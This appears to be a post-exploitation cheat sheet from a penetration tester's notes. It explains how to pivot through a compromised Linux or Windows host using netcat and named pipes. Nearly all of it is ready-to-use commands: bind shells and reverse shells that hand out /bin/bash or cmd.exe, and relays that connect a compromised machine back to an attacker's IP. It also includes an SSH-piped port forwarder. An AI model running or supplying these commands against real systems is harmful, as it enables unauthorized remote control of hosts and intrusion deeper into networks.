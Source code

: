 # Netcat

Search Tag(s): #post-exploitation #pivot #port-forward #scenarios #linux #windows

## 01 - Pivoting Listening Ports

Let's say you're stuck in a situation that there's no other way to perform pivoting except one of the netcat variants were preinstalled in the compromised Linux system.

```
$ mkfifo /tmp/backpipe

$ mknod /tmp/backpipe p

$ nc -lnvp <pivot_PORT> 0 < /tmp/backpipe | nc <bind_IP> <bind_PORT> 1 > /tmp/backpipe
```

## 02 - Scenarios

### 2.1 - Bind Port

#### 2.1.1 - Server-to-Client Relay

> [!INFO] Netcat Port Forwarding
> You can bind any exposed port to establish connection as long it works. Do not limit yourself to one specific service.

```
$ mknod /tmp/backpipe pipe; nc -lnvp 8443 0 < /tmp/backpipe | nc <webserver_IP> 443 1 > /tmp/backpipe
```

Create a proxy to interact a web server.

```
$ mknod /tmp/backpipe pipe; nc -lp 8080 0 & < /tmp/backpipe | tee -a inflow | nc <webserver_IP> <webserver_PORT> | tee -a outflow & 1 > /tmp/backpipe
```

Another way is to port forward through SSH then pipe it in the `netcat` listener.

```
$ mkfifo /tmp/backpipe pipe

$ while [ 1 ]; do nc -lp 8443 < /tmp/backpipe | ssh <ssh_server_IP> [-p <PORT>] "nc <webserver_IP> 80" | tee /tmp/backpipe; done
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k http://<pivot_IP>:8443
```

### 2.3 - Port Forward Bind Shells

#### 2.3.1 - Server-to-Client Relay

Launch a listener from the compromised system.

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

Bind the IP address and port from the compromised machine and redirect it with a listening port to create a pivot point.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lp <pivot_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

Establish connection to the bind shell.

```
userware@hackware-os:~$ nc -v <pivot_IP> <pivot_PORT>
```

#### 2.3.2 - Server-to-Server Relay

Launch two listening ports one from the attacker side and the compromised system.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc -lp <pivot_PORT_1> < /tmp/backpipe | nc -lp <pivot_PORT_2> > /tmp/backpipe
```

Connect the IP address and port of the server to create a pivot point.

```
user@computer:~$ nc <pivot_IP> <pivot_PORT_2> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT_2> -e cmd.exe
```

Establish connection to the bind shell.

```
userware@hackware-os:~$ nc -v <pivot_IP> <pivot_PORT_1>
```

### 2.4 - Port Forward Bind Shells

#### 2.4.1 - Client-to-Server Relay

Launch the reverse shell handler in order to create a pivot point from the server.

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

Connect the IP address and port of the attacker's machine to port forward a reverse shell handler.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc -lnvp <pivot_PORT> > /tmp/backpipe
```

Connect the server's IP address and port to prompt a reverse shell.

```
user@computer:~$ nc <pivot_IP> <pivot_PORT> -e /bin/bash

C:\> nc <pivot_IP> <pivot_PORT> -e cmd.exe
```

#### 2.4.2 - Client-to-Client Relay

Launch a listener from the compromised machine.

```
user@computer:~$ nc -lp <target_PORT> -e /bin/bash

C:\> nc -lp <target_PORT> -e cmd.exe
```

Prepare a shell handler to establish a reverse connection.

```
userware@hackware-os:~$ nc -lnvp <attacker_PORT>
```

Connect the two IP addresses and ports from the attacker machine and the compromised machine (respectively). You should have a reverse shell prompt.

```
user@pivot:~$ mknod /tmp/backpipe

user@pivot:~$ nc <attacker_IP> <attacker_PORT> < /tmp/backpipe | nc <target_IP> <target_PORT> > /tmp/backpipe
```

---
## References

- [Michael Nikitochkin: Netcat with SSH Port Forwarding](https://medium.com/notes-and-tips-in-full-stack-development/netcat-with-ssh-port-forwarding-148177b2e850)